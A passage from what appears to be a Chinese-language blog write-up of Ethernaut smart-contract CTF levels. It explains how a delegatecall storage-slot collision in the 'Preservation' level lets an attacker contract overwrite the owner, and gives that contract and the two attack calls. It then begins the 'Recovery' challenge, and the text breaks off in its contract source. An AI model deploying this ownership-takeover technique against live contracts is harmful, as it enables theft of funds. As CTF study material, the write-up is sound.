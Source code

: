 ```solidity
    storedTime = _time;
  }
}
```

### 分析

漏洞点还是在delegatecall上，由于不会改变上下文，所以说settime函数中，将storedtime赋值为time，如果delegatecall调用，其实是把slot1中的数据赋值为time。

所以说第一次setfirsttime将timezone1改掉，改成我们攻击合约地址，这样就可以调用魔改的settime函数。，然后就可以把owner改掉了。

攻击合约代码：

```solidity
pragma solidity ^0.8.0;

contract Preservation {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;

    function setTime(uint256 player) public {
        owner = address(uint160(player));
    }
}
```

攻击流程：

```solidity
contract.setFirstTime(攻擊合約地址)
contract.setFirstTime(player)
```

## recovery

### 题目

合约的创建者已经构建了一个非常简单的合约示例。任何人都可以轻松地创建新的代币。部署第一个令牌合约后，创建者发送了0.5ether以获取更多token。后来他们失去了合同地址。 目的是从丢失的合同地址中恢复（或移除）0.5ether。

### 代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Recovery {

  //generate tokens
  function generateToken(string memory _name, uint256 _initialSupply) public {
    new SimpleToken(_name, msg.sender, _initialSupply);
  
  }
}

contract SimpleToken {

  using SafeMath for uint256;
  // public variables
  string public name;
  mapping (address => uint) public balances;

```